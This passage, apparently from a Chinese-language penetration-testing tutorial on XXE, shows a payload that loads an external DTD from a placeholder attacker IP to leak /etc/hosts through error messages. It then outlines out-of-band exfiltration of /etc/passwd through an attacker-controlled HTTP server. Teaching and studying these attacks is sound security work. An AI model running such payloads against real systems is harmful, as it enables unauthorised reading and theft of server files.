 ***

#### ✅ 2️⃣ 啟動 HTTP 伺服器供目標訪問：

```bash
python3 -m http.server 8000
```

***

#### ✅ 3️⃣ 傳送 Payload 給目標：

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://你的IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

* 目標伺服器會從你的 `xxe.dtd` 檔案讀取內容
* 再觸發錯誤訊息
* 錯誤訊息中就會包含 `/etc/hosts` 檔案內容！

## <mark style="color:red;">5. OOB 資料外洩</mark>

### ⭐ 問題背景

在部分目標系統中：

* 沒有 XML 回顯
* 不會在頁面上顯示任何錯誤
* 也無法利用錯誤型 XXE 看結果

***

### ⭐ 利用條件：

1. 目標存在 XXE 漏洞。
2. 目標不會把檔案內容顯示在回應中（無回顯）。
3. 目標不會顯示 XML 錯誤訊息（無錯誤型 XXE）。
4. 伺服器允許向外發送 HTTP 請求或 DNS 請求。

***

### ⭐ 攻擊思路：

* 我們建立一個**外部 DTD** 檔案。
* 讓伺服器讀取本地檔案內容（例如 `/etc/passwd`）。
* 將這些內容嵌入到一個 `http://你的伺服器/?data=檔案內容` 的請求中。
* 伺服器自動向我們的 HTTP server 發送請求。
* 在我們的 HTTP server 日誌裡就能看到檔案內容（Out-of-band 外洩成功）。

***
